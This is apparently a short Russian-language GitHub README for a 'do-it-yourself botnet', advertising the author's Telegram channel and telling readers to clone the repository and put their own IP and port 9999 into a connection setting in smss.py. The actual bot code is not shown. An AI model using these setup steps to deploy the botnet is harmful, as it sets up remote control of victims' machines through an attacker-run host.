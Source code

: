 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>

Клонируем гит <br>
git clone https://github.com/Samuraianonweb/bot
<br>
cd bot
<br>
Редактируем файл smss.py
<br>
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
<br>
